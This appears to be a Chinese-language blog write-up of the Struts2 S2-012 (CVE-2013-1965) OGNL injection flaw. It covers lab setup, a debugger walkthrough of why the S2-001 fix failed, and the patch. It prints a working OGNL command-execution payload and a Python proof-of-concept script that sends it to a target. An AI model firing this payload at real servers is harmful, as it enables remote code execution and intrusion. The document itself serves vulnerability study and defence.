# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第七篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-012漏洞,又名CVE-2013-1965漏洞.

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-012)

#### 漏洞成因

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### POC

```python

#!/usr/bin/env python3

import random
import string
import requests

class S2_012_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-012漏洞,又名CVE-2013-1965漏洞',
            'description': 'Struts2 S2-012漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-04-16',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if  '.action' not in self.url:
            self.url = self.url + '/user.action'
        self.capta = self.get_capta() 
        self.payload =  '%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{S2_012})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}'

    def filter(self, check_str):
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp

    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            self.check_data = {'name': self.payload.replace('S2_012', '"echo",' + '\"' + self.capta + '\"')}
            check_res = requests.post(self.url, data = self.check_data)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_012 = S2_012_BaseVerify('http://localhost:8080/s2_012_war_exploded/index.action')
    S2_012.run()
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下配置文件,可见使用了重定向类型,并且还使用${param_name}作为重定向变量



&emsp;&emsp;&emsp;&emsp;2.在lib/xwork-core-2.2.3.jr/com.opensymphony.xwork2/DefaultActionInvocation.class文件第221行打断点



&emsp;&emsp;&emsp;&emsp;3.点击F7进入方法executeResult内,this.createResult()会根据action的返回值获取对应的result标签配置,之后传入this.objectFactory.buildResult,F7进入buildResult方法,这个方法的作用是生成对应的Result实现类,即org.apache.struts2.dispatcher.ServletRedirectResult.并把对应 result标签的值/index.jsp?name=${name}设置给ServletRedirectResult 类的location属性,然后返回ServletRedirectResult.











&emsp;&emsp;&emsp;&emsp;4.然后继续返回到executeResul方法,继续执行,继续进入this.result.execute方法,此时的result就是ServletRedirectResult.



&emsp;&emsp;&emsp;&emsp;5.继续跟进execute方法,可见会执行super类StrutsResultSuppor的execute方法,F7继续进入





&emsp;&emsp;&emsp;&emsp;6.继续跟入conditionalParse,就可以看到了S2-001漏洞的关键方法translateVariables,进入这个方法





&emsp;&emsp;&emsp;&emsp;7.根据传入的参数类型找到重载方法,可见已经限制了循环次数



&emsp;&emsp;&emsp;&emsp;8.对于S2-001漏洞,官方设置了循环次数,从而限制恶意代码,但这个设置的循环次数是针对的while循环,在外面还有一个for循环,for循环开始的pos参数用来获取expression表达式的开始位置,比如解析完了%{password}的值,下一次解析是从%{password}后面开始.在S2-001的修复中它被放在了for循环里,导致第二次for循环时pos的值会被重置为0.从而又从头开始解析.从下图中的变量值可以看到for进行了2次循环,循环2次是因为传入的参数new char[]{'$', '%'}长度为2导致的.for第二次循环时open为arr数组的第二个参数%,这个%和{组合后又成了S2-001的利用所需要的条件,最后还是通过while循环中的stack.findValue来进行执行代码的.S2-001修复方案中的增加loopCount变量限制了while循环的次数,却没有限制for循环的次数,每次for循环开始时loopCount都会被重置为1.



## 漏洞修复

> 2.3.14.3中只是for遍历的开头的int pos = 0;删除,pos计算方式改为


```java

pos = (left != null && left.length() > 0 ? left.length() - 1: 0) + (middle != null && middle.length() > 0 ? middle.length() - 1: 0) + 1;
```

> middle就是url的值,在递归的情况下,pos会是url的长度,indexof搜索会失败,从而loopCount + 1 导致递归深度验证失败

```java
int start = expression.indexOf(lookupChars, pos);
if (start == -1) {
    loopCount++;
    start = expression.indexOf(lookupChars);
}
```


## 总结

> ongl表达式好复杂,越来越发现漏洞的共同点了...,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://mp.weixin.qq.com/s/S5TGRtCVI9heT7bopGLJhA

> https://aluvion.gitee.io/2020/07/22/struts2%E7%B3%BB%E5%88%97%E6%BC%8F%E6%B4%9E-S2-012/

> https://cwiki.apache.org/confluence/display/WW/S2-012

